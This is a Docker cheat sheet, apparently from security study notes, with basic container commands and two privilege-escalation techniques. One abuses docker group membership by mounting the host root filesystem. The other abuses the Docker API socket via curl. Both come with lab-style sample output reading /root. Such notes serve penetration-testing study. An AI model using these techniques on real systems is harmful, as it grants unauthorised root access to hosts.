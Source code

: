 ```yaml
---
title: "Docker"
date: 2024-7-3
tags: ["Forensic", "Docker", "Container", "Dive"]
---
```


### Basic Commands

```console
# Show all running processes
sudo docker ps -a
```

```console
# Show all images
sudo docker images -a
```

```console
# Stop all processes
sudo docker stop $(sudo docker ps -a -q)
```

```console
# Remove all processes
sudo docker rm -vf $(sudo docker ps -a -q)
```

```console
# Remove all images
sudo docker rmi -f $(sudo docker images -aq)
```

```console
# Shell in docker
sudo docker exec -it <CONTAINER_NAME> sh
```

```console
# Copy file from host to container
sudo docker cp <HOST_FILE_PATH> <CONTAINER_ID>:<CONTAINER_FILE_PATH>
```

```console
# Copy file from container to host
sudo docker cp <CONTAINER_ID>:<CONTAINER_FILE_PATH> <HOST_FILE_PATH>
```

```console
# Copy folder from host to container
sudo docker cp <HOST_FOLDER_PATH>/. <CONTAINER_ID>:<CONTAINER_TARGET_PATH>
```

```console
# Copy folder from container to host
sudo docker cp <CONTAINER_ID>:<CONTAINER_FOLDER_PATH>/. <HOST_TARGET_PATH>
```

---

### Explore Docker image

{{< tab set1 tab1 active >}}dive{{< /tab >}}
{{< tabcontent set1 tab1 >}}

```console
dive docker-archive://image.tar
```

<small>*Ref: [dive](https://github.com/wagoodman/dive)*</small>

{{< /tabcontent >}}

---

### Abuse #1: Docker group

```console
# List images
docker images
```

```console {class="sample-code"}
$ docker images
REPOSITORY   TAG       IMAGE ID       CREATED       SIZE
alpine       latest    d7d3d98c851f   2 years ago   5.53MB
```

```console
# Mount host root filesystem
docker run -v /:/mnt -it <IMAGE_ID> sh
```

```console {class="sample-code"}
$ docker run -v /:/mnt -it d7d3d98c851f sh  
/ # 
```

```console
# Check
ls /mnt/root
```

```console {class="sample-code"}
/ # ls /mnt/root
root.txt
```

---

### Abuse #2: Docker API

```console
# Show running containers
curl -s --unix-socket /var/run/docker.sock http://localhost/images/json
```

```console {class="sample-code"}
root@2d24bf61767c:/root# curl -s --unix-socket /var/run/docker.sock http://localhost/images/json
[{"Containers":-1,"Created":1590787186,"Id":"sha256:a24bb4013296f61e89ba57005a7b3e52274d8edd3ae2077d04395f806b63d83e","Labels":null,"ParentId":"","RepoDigests":null,"RepoTags":["sandbox:latest"],"SharedSize":-1,"Size":5574537,"VirtualSize":5574537},{"Containers":-1,"Created":1588544489,"Id":"sha256:188a2704d8b01d4591334d8b5ed86892f56bfe1c68bee828edc2998fb015b9e9","Labels":null,"ParentId":"","RepoDigests":["<none>@<none>"],"RepoTags":["<none>:<none>"],"SharedSize":-1,"Size":1056679100,"VirtualSize":1056679100}]
```

```console
# Create container
curl -s -X POST -H 'Content-Type: application/json' --data-binary '{"Image": "<IMAGE_NAME>:latest","HostConfig": {"Binds": ["/:/r"]}, "Cmd": ["/bin/sh", "-c", "ls -la /r/root/"], "Tty": true}' --unix-socket /var/run/docker.sock http://localhost/containers/create
```

```console {class="sample-code"}
(remote) root@2d24bf61767c:/root# curl -s -X POST -H 'Content-Type: application/json' --data-binary '{"Image": "sandbox:latest","HostConfig": {"Binds": ["/:/r"]}, "Cmd": ["/bin/sh", "-c", "ls -la /r/root/"], "Tty": true}' --unix-socket /var/run/docker.sock http://localhost/containers/create
{"Id":"ec28a9d1ae931fb81ac1c2640d1aac24bf1e7172bd6c42f02400659c299157cd","Warnings":[]}
```

```console
# Start container
curl -i -X POST -H 'Content-Type: application/json' --unix-socket /var/run/docker.sock http://localhost/containers/<CONTAINER_ID>/start
```

```console {class="sample-code"}
(remote) root@2d24bf61767c:/root# curl -i -X POST -H 'Content-Type: application/json' --unix-socket /var/run/docker.sock http://localhost/containers/9115/start
HTTP/1.1 204 No Content
Api-Version: 1.40
Docker-Experimental: false
Ostype: linux
Server: Docker/19.03.8 (linux)
Date: Mon, 23 Sep 2024 04:29:11 GMT
```

```console
# Show results
curl -s --unix-socket /var/run/docker.sock "http://localhost/containers/<CONTAINER_ID>/logs?stderr=1&stdout=1"
```

```console {class="sample-code"}
(remote) root@2d24bf61767c:/root# curl -s --unix-socket /var/run/docker.sock "http://localhost/containers/9115/logs?stderr=1&stdout=1"
total 56
drwx------    6 root     root          4096 Sep 23 04:06 .
drwxr-xr-x   20 root     root          4096 Feb  9  2021 ..
lrwxrwxrwx    1 root     root             9 Jun 17  2020 .bash_history -> /dev/null
-rw-r--r--    1 root     root          3106 Dec  5  2019 .bashrc
drwx------    2 root     root          4096 Jun 30  2020 .cache
drwxr-xr-x    3 root     root          4096 Jun 30  2020 .local
-rw-r--r--    1 root     root           161 Dec  5  2019 .profile
-rw-r--r--    1 root     root            75 Jun 30  2020 .selected_editor
drwx------    2 root     root          4096 Jun 30  2020 .ssh
-rw-------    1 root     root         12235 Aug 26  2020 .viminfo
-rw-r--r--    1 root     root           165 Jun 30  2020 .wget-hsts
-rw-------    1 root     root            33 Sep 23 04:06 root.txt
drwxr-xr-x    3 root     root          4096 May 18  2020 snap
```
